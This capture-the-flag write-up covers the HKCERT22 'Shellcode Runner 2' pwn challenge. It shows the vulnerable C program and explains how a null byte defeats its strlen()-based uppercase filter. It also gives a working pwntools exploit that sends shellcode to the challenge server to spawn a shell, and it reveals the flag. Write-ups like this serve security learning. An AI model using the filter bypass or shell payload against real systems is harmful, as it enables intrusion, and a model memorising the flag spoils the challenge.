 # Shellcode Runner 2
## Challenge Detail
![](assets/shellcode_runner2_details.png)

source:
```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <ctype.h>
#include <string.h>

typedef void (*void_fn)(void);

void _abort(char const * err_msg) {
    printf("%s", err_msg);
    exit(1);
}

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stderr, 0, 2, 0);
  alarm(60);
}

int is_all_upper(char* s) {
    for (int i=0; i<strlen(s); i++)
        if (!isupper(s[i]) && !isdigit(s[i]) && s[i] != ' ')
            return 0;
    return 1;
}

int main() {
    int SIZE = 100;
    int readed_len = 0;
    unsigned long rbx, rcx, rdx, rbp, rsp, rsi, rdi, r8, r9, r10, r11, r12, r13;
    char *shellcode;
    init();

    shellcode = (char*) mmap((void *)0x13370000, SIZE, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_ANONYMOUS|MAP_PRIVATE, -1, 0);

    if ((long)shellcode == -1)
        _abort("mmap failed!\n");
    memset(shellcode, '\0', SIZE);

    printf("\nInput your shellcode here (max: 100): ");
    if ((readed_len = read(0, shellcode, SIZE - 1)) == 0)
        _abort("read failed!\n");
    
    if (shellcode[readed_len-1] == '\n') {
        shellcode[readed_len-1] = '\0';
    }
    
    if (is_all_upper(shellcode) == 0) {
        _abort("invalid shellcode!\n");
    }

    asm(
        "movq %%rbx, %0;"
        "movq %%rcx, %1;"
        "movq %%rdx, %2;"
        "movq %%rbp, %3;"
        "movq %%rsp, %4;"
        "movq %%rsi, %5;"
        "movq %%rdi, %6;"
        "movq %%r8, %7;"
        "movq %%r9, %8;"
        "movq %%r10, %9;"
        "movq %%r11, %10;"
        "movq %%r12, %11;"
        "movq %%r13, %12;"
        : "=r" (rbx), "=r" (rcx), "=r" (rdx), "=r" (rbp), "=r" (rsp), "=r" (rsi), "=r" (rdi), "=r" (r8), "=r" (r9), "=r" (r10), "=r" (r11), "=r" (r12), "=r" (r13): : "memory"
    );
    printf("Before running the shellcode:\nrax = %p\nrbx = 0x%lx\nrcx = 0x%lx\nrdx = 0x%lx\nrbp = 0x%lx\nrsp = 0x%lx\nrsi = 0x%lx\nrdi = 0x%lx\nr8 = 0x%lx\nr9 = 0x%lx\nr10 = 0x%lx\nr11 = 0x%lx\nr12 = 0x%lx\nr13 = 0x%lx\n",
        shellcode, rbx, rcx, rdx, rbp, rsp, rsi, rdi, r8, r9, r10, r11, r12, r13);
    asm(
        "movq %0, %%rbx;"
        "movq %1, %%rcx;"
        "movq %2, %%rdx;"
        "movq %3, %%rbp;"
        "movq %4, %%rsp;"
        "movq %5, %%rsi;"
        "movq %6, %%rdi;"
        "movq %7, %%r8;"
        "movq %8, %%r9;"
        "movq %9, %%r10;"
        "movq %10, %%r11;"
        "movq %11, %%r12;"
        "movq %12, %%r13;"
        :: "m"(rbx), "m"(rcx), "m"(rdx), "m"(rbp), "m"(rsp), "m"(rsi), "m"(rdi), "m" (r8), "m" (r9), "m" (r10), "m" (r11), "m" (r12), "m" (r13) 
    );
    ((void_fn) shellcode)();
}
```

## Solution
You can see the shellcode will be checked using the `is_all_upper()` function, which means that only upper case alphanumerical input is accpeted. 

After searching on the Internet, I found several example of uppercase alphanumerical shellcodes. However, all of the suggested shellcodes are larger than 100 bytes. Hence, they cannot be used directly.

Later, I further investigated into the `is_all_upper()`. I found that the size of shellcode is checked using `strlen()`, which means that the checking will end if it sees the `0x00` characters. As `read` function does not stop at any null byte, I can include a null byte to stop the checking and append the normal shellcode at the end of the null byte.

Since I don't know whether `0x00` is a valid instruction, I searched online and found [this site](https://nets.ec/Alphanumeric_shellcode). It has an instruction `xor [dword], %eax` which is `'5'`. I think it can mov the value of the null byte into the eax. Also, to prevent bad instruction, I pad some `NOP` behind the null byte. And I successfully get the shell using this code:
```python
from pwn import *
from pwnlib import encoders
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'

r = remote('chal.hkcert22.pwnable.hk', 28130)

r.recvuntil(b'(max: 100): ')
r.send(b'\x35\x00\x90\x90\x90' + asm(shellcraft.sh()))
r.interactive()
```

## Flag
`
hkcert22{d41d8cd98f00b204e9800998ecf8427e33a}
`